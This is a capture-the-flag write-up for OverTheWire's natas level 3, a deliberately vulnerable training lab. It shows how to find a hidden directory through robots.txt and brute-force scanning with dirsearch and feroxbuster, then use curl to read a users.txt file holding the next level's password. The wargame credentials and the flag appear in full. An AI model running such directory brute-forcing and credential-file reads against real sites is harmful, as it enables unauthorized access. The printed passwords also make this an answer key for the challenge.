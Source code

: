 ```yaml
---
layout: level
level: 3
previous: ./level 02.html
next: ./level 04.html
---
```


# soal
Username: natas3
URL:      http://natas3.natas.labs.overthewire.org

# solve
- login with cred natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
- if you check the web you won't find a directory listing because the directory listing isn't there
- u can check robots.txt first because show the allow and disallow path user agent
- and Here I found the folder that was allowed, namely /s3cr3t/
  - http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt # natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ 
- or use the tool bruteforce directory
  ```bash
  echo -n 'natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH' | base64 # make the base64 for authentication

  dirsearch -u natas3.natas.labs.overthewire.org -e txt,html -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH

  feroxbuster -u http://natas3.natas.labs.overthewire.org -x .txt,.html -H "Authorization: Basic $(echo -n 'natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH' | base64)"
  # 200      GET        1l        1w       40c http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
  # 200      GET        2l        4w       33c http://natas3.natas.labs.overthewire.org/robots.txt
  ```

- after u found the directory and the file u can curl the flag
  ```bash
  curl http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
  natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
  ```

# flag
QryZXc2e0zahULdHrtHxzyYkj59kUxLQ